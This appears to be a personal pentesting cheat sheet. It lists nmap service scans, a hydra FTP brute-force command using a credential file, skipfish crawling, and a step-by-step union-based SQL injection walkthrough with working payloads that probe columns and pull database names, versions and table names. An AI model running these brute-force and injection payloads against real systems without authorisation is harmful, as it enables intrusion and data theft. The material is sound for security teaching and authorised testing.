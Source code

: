 ## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting  
First thing we try is to search with single quote '  
`Sql.php?search='`  
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.  
Finding the number of columns:  
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]  
or  
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]  
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:  
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]  
or  
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `  
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table  
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`  
or  
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`  

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]
